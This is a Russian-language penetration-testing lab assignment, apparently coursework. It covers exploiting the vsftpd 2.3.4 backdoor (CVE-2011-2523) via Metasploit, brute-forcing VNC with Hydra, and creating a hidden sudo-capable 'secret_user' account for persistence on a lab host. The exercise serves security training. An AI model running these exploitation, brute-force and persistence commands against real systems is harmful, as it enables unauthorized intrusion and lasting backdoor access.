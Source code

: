 

## Цель работы  
Освоить методы эксплуатации уязвимостей в сетевых сервисах (FTP, VNC) для получения несанкционированного доступа к системам и выполнения произвольного кода.  

---

## Задачи работы  
- Эксплуатировать бэкдор в FTP-сервисе (vsftpd 2.3.4) на хосте 10.10.5.2 для получения привилегированного доступа.  
- Провести атаку на сервис VNC (порт 5900) с использованием слабых учетных данных для получения удаленного доступа к графическому интерфейсу системы.  

---

## Теоретическая часть  

### 1. Уязвимости сетевых сервисов  
**FTP-сервисы** часто становятся мишенью атак из-за:  
- Устаревших версий ПО с известными уязвимостями  
- Наличия скрытых бэкдоров в реализации протокола  
- Недостаточной аутентификации  

**VNC (Virtual Network Computing)** - протокол удалённого доступа, критичен из-за:  
- Использования слабых паролей по умолчанию  
- Отсутствия шифрования передаваемых данных  
- Уязвимостей в реализации протокола  

**Бэкдоры в легитимном ПО** представляют особую угрозу безопасности, поскольку:
* Обнаруживаются сложнее, чем классические уязвимости
* Позволяют обходить системы защиты (IDS/IPS)
* Часто активируются через нестандартные векторы (спецсимволы в логине)
* Предоставляют максимальные привилегии (root)
* Длительное время остаются незамеченными (vsftpd-бэкдор эксплуатировался 2 года)
### 2. Ключевые уязвимости  
#### 2.1 CVE-2011-2523 (vsftpd 2.3.4)  
- **Суть:** Скрытый бэкдор, активируемый при вводе ":)" в поле имени пользователя  
- **Механизм:** Открывает порт 6200 для выполнения произвольных команд  
- **Последствия:** Получение полного контроля с правами root  
#### 2.2 Уязвимости VNC-аутентификации  
- **Суть:** Использование слабых/стандартных паролей (123456, password)  
- **Механизм:** Перебор учетных данных через словарные атаки  
- **Последствия:** Полный доступ к графическому интерфейсу системы  

### 3. Инструменты  
- **Nmap:** Обнаружение открытых портов и версий сервисов  
- **Metasploit Framework:** Автоматизация эксплуатации уязвимостей  
- **Hydra:** Подбор паролей методом brute-force  
- **vncviewer:** Клиент для подключения к VNC-серверам  

---

## Ход выполнения  

### Шаг 1: Эксплуатация уязвимости vsftpd (CVE-2011-2523)  
**Цель:** Получить root-доступ через FTP-бэкдор  
1. Сканирование целевого хоста:  
```bash  
nmap -sV 10.10.5.2 -p 21  
```  
*Ожидаемый результат:* `21/tcp open ftp vsftpd 2.3.4`  

2. Запуск эксплойта в Metasploit:  
```bash  
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor  
msf6 > set RHOSTS 10.10.5.2  
msf6 > run  
```  
3. Создание персистентного доступа:  
```bash  
useradd -m -s /bin/bash secret_user  
echo 'secret_user:P@ssw0rd123!' | chpasswd  
usermod -aG sudo secret_user  
```  

### Шаг 2: Атака на сервис VNC  
**Цель:** Получить доступ к графическому интерфейсу  
1. Проверка VNC-сервиса:  
```bash  
nmap -sV 10.10.5.2 -p 5900  
```  
*Ожидаемый результат:* `5900/tcp open vnc`  

2. Подбор пароля с помощью Hydra:  
```bash  
hydra -P /usr/share/wordlists/rockyou.txt -t 4 10.10.5.2 vnc  
```  
3. Подключение к VNC:  
```bash  
vncviewer 10.10.5.2:5900  
```  

---

## Форма отчёта  
1. **Результаты сканирования Nmap** (скриншоты вывода для портов 21 и 5900).  
2. **Доказательства эксплуатации**:  
   - Скриншот сессии Metasploit с root-доступом  
   - Вывод команды `id` в полученном шелле  
   - Скриншот подключения к VNC  
3. **Выводы**:  
   - Критичность эксплуатации устаревших версий ПО  
   - Риски использования стандартных паролей  
   - Рекомендации по защите (обновления, сложные пароли, ограничение доступа)  

---

## Вопросы для самоконтроля  
1. Почему vsftpd 2.3.4 считается критически уязвимой версией?  
2. Какие риски создает VNC без шифрования трафика?  
3. Как обнаружить активацию бэкдора на порту 6200?  
4. Какие методы защиты эффективны против атак на FTP-сервисы?  
5. Почему словарные атаки часто успешны против VNC?  
6. Какие альтернативы Hydra существуют для подбора паролей?  

